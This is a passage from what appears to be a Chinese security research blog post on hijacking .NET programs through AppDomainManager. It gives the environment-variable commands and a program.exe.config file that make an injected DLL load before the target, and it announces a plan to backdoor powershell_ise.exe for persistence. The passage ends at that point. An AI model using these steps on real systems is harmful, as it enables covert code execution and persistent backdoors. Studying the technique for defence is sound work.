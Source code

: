 **方法1：**

cmd设置环境变量：

```
set APPDOMAIN_MANAGER_ASM=DomainManager, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null

set APPDOMAIN_MANAGER_TYPE=DomainManager.InjectedDomainManager
```

执行program.exe，通过查看回显，发现DomainManager.dll先于program.exe执行

成功实现劫持，完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-15/2-2.png)

**注：**

注意比较执行顺序

通过cmd设置环境变量的方法只会作用于当前cmd，不够通用

**方法2：**

更加通用的方法：配置config文件

新建program.exe.config，内容如下：

```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.0"/>
  </startup>
    <runtime>
      <appDomainManagerType value="DomainManager.InjectedDomainManager" />
      <appDomainManagerAssembly
         value="DomainManager, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />
    </runtime>
</configuration>
```

**注：**

config文件命名格式：exe+.config

成功实现劫持，完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-15/2-3.png)

## 0x04 劫持系统.Net程序powershell_ise.exe
---

接下来，需要找到可供利用的系统.Net程序，尝试实现持久性后门

这里选取powershell_ise.exe作为演示

**注：**
